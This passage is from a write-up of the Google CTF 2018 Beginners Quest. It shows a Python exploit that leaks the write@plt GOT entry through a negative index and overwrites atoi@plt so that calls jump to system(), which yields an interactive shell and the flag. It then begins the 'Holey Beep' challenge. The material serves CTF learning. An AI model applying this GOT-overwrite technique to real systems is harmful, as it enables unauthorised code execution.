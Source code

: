 ```python
print recv(": ")
s.send("wintermuted\n")

print recv("> ")
s.send("2\n")
print recv("? ")
s.send("-6\n")  # read the GOT of write@plt and print its unresolved address
v = recv("> ")
v = v.split("\n")[0].split(" ")[-1]
v = v + "\0" * (8 - len(v))
write = unpack("<Q", v)[0]  # store unresolved write@plt address for offset calculation
print "\n*** Unresolved address of write@plt is at 0x%08x ***" % write

s.send("3\n")
print recv("? ")
s.send("-4\n")  # write to the GOT of atoi@plt
print recv("? ")
s.send("JUMPOVER" + pack("<Q", write + 0x2a)[:8] + "\n")
# 8 bytes to jump over; system@plt is at write+0x2a

t = Telnet()
t.sock = s
t.interact()
```

Let's give it a shot.

{% include image.html image_alt="CountZero" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/720eb6c1.png" %}

Now that we know Wintermuted is CountZero, let's look at the TODO list the right way.

{% include image.html image_alt="flag" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/5aee6825.png" %}

The flag is `CTF{goo.gl/cjHknW}`.

### Holey Beep

The attachment is [here](https://storage.googleapis.com/gctf-2018-attachments/575142163b9bf4762ce4e2412ff05ee855dc7644b402522f79e39af017d99955).

{% include image.html image_alt="Holey Beep" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/00269e20.png" %}

Let's unzip `holey_beep.zip`.

```
# unzip -l holey_beep.zip
Archive:  holey_beep.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     9000  1980-00-00 00:00   holey_beep
---------                     -------
     9000                     1 file
```
